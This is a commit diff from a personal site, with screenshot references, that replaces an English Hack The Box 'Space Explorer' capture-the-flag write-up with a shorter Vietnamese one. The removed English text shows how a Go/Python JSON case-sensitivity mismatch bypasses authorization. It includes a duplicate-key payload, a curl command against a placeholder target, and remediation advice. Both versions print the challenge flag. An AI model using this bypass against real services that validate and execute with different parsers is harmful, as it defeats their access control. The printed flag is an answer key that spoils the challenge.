

Before and after one commit to PeaMatNgu/PeaMatNgu.github.io, a Jekyll site: the page built from htb/index.md, in a window 1280 px wide and 1301 px high. Shown: the whole window at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Restore original Space Explorer write-up content

````diff
--- a/_htb/2026-10-08-space-explorer.md
+++ b/_htb/2026-10-08-space-explorer.md
@@ -1,7 +1,7 @@
 ---
 title: "Space Explorer Write-Up"
 date: 2026-10-08
-summary: "Hack The Box Space Explorer web challenge write-up covering inconsistent JSON parsing between a Go sender and a Python receiver."
+summary: "A lost space mission control system suffers from flawed authentication logic between its Sender and Receiver services."
 difficulty: "Very Easy"
 platform: "Hack The Box"
 tags:
@@ -9,143 +9,23 @@
   - go
   - python
   - json
-  - authentication-bypass
-  - inconsistent-parsing
 ---
 
-## Challenge overview
+## Challenge information
 
 | Field | Details |
 | --- | --- |
 | Category | Web |
-| Difficulty | Very Easy |
-| Vulnerability | Inconsistent JSON parsing |
-| Services | Go sender and Python receiver |
+| Rating | Very Easy |
+| Flag | `HTB{C0SM1C-BYP4SS}` |
+| Description | A lost space mission control system suffers from flawed authentication logic between its Sender and Receiver services. |
 
-Space Explorer is a web challenge built from two services. A public Go application receives and validates the request, then forwards accepted requests to an internal Python service. The vulnerability appears because the two JSON parsers do not interpret key names in exactly the same way.
+Thử thách Web này có vấn đề ở cách xử lý giữa hai dịch vụ Sender(Go) và Receiver(Python). Trong mã nguồn ta có thể thấy `Go` sử dụng encoding/json để `Unmarshal Json` để chuyển đổi dữ liệu từ dạng json thành cấu trúc dữ liệu trong ngôn ngữ lập trình. `Go` đọc từng cặp key-value trong json, so sánh với tên các trường có trong **RequestData**, ở đây chỉ có 1 trường là `Action string`.
 
-## Application architecture
+Tuy `Go` có cơ chế validate dữ liệu, nhưng nó sẽ lấy giá trị cuối cùng được truyền vào, cũng như không phân biệt giá trị viết hoa hay thường. Nếu như giá trị cuối cùng hợp lệ, được duyệt thì sẽ gửi nguyên toàn bộ dữ liệu thô của request sang cho receiver xử lý.
 
-The request passes through the following components:
+Phía Sender không phân biệt ký tự hoa thường, Python thì có, nó phân biệt các key này cộng thêm việc không có cơ chế validate ở backend. Vì vậy, ý tưởng của bài này sẽ là truyền thêm 1 trường `"Action": "getcosmic"` trong request, trước đó là `"action": "GetSecureCode"`, request này vượt qua cơ chế kiểm tra của `Go` và sẽ trả về flag trong Response.
 
-1. The client sends JSON to the Go service on port `8080`.
-2. Go unmarshals the body into `RequestData` and validates `Action`.
-3. If the value is `getcosmic`, Go forwards the **original request body** to the internal service.
-4. The Python service on port `8081` parses that same JSON again and performs the selected action.
+<img src="https://hackmd.io/_uploads/BkdZ70tUGg.png" alt="Space Explorer exploit response">
 
-```text
-Client
-  └── POST /execute
-        └── Go sender :8080
-              └── raw JSON body
-                    └── Python receiver :8081
-                          └── response / flag
-```
-
-## Sender analysis — Go
-
-The Go service defines only one JSON field:
-
-```go
-type RequestData struct {
-    Action string `json:"action"`
-}
-```
-
-After parsing the body, the handler only forwards requests whose action is `getcosmic`:
-
-```go
-var requestData RequestData
-if err := json.Unmarshal(body, &requestData); err != nil {
-    http.Error(w, "Invalid JSON", http.StatusBadRequest)
-    return
-}
-
-switch requestData.Action {
-case "getcosmic":
-    resp, err := http.Post(
-        "http://localhost:8081/execute",
-        "application/json",
-        bytes.NewBuffer(body),
-    )
-    // ...
-case "getSecureCode":
-    w.Write([]byte("Access denied: Invalid security clearance"))
-}
-```
-
-Two details are important:
-
-- Go's `encoding/json` matches incoming object keys to struct fields without requiring the same letter case.
-- When multiple matching keys appear, the later value overwrites the earlier value in `requestData.Action`.
-
-The validation is therefore performed against Go's normalized view of the request, while the unmodified raw body is forwarded to Python.
-
-## Receiver analysis — Python
-
-The internal Flask service handles the protected action:
-
-```python
-data = request.get_json()
-
-if 'action' not in data:
-    return jsonify({"error": "No command received"}), 400
-
-if data['action'] == "getcosmic":
-    anomaly = random.choice(COSMIC_ANOMALIES)
-    return jsonify(anomaly)
-elif data['action'] == "getSecureCode":
-    return jsonify({
-        "flag": os.getenv("FLAG", "HTB{flag_not_set}"),
-        "name": "Captain's Log"
-    })
-```
-
-Python dictionaries are case-sensitive, so `action` and `Action` remain two distinct keys. The receiver specifically reads the lowercase key `action`.
-
-## Exploitation
-
-The payload supplies both spellings in a deliberate order:
-
-```json
-{
-  "action": "getSecureCode",
-  "Action": "getcosmic"
-}
-```
-
-The same body is interpreted differently by each service:
-
-| Parser | Result |
-| --- | --- |
-| Go sender | Both keys match the `Action` field; the final value is `getcosmic`, so validation succeeds. |
-| Python receiver | `action` and `Action` are distinct; `data['action']` remains `getSecureCode`. |
-
-The request can be sent with `curl`:
-
-```bash
-curl -s -X POST 'http://TARGET/execute' \
-  -H 'Content-Type: application/json' \
-  --data '{"action":"getSecureCode","Action":"getcosmic"}'
-```
-
-Go sees the allowed value and forwards the body. Python then selects `getSecureCode` from the lowercase key and returns the protected response.
-
-## Flag
-
-```text
-HTB{C0SM1C-BYP4SS}
-```
-
-## Root cause and remediation
-
-The root cause is a parser differential across a trust boundary: validation is performed using one parser's interpretation, but authorization-sensitive logic is later executed using a different parser's interpretation of the raw input.
-
-Safer designs include:
-
-- Rejecting JSON objects that contain keys differing only by letter case.
-- Forwarding a newly serialized, validated structure instead of the original request body.
-- Performing authorization in the service that executes the protected action.
-- Defining and enforcing one canonical schema at every service boundary.
-
-For this challenge, serializing `requestData` after validation and forwarding that canonical JSON would remove the ambiguity used by the exploit.
+Flag: `HTB{C0SM1C-BYP4SS}`
````
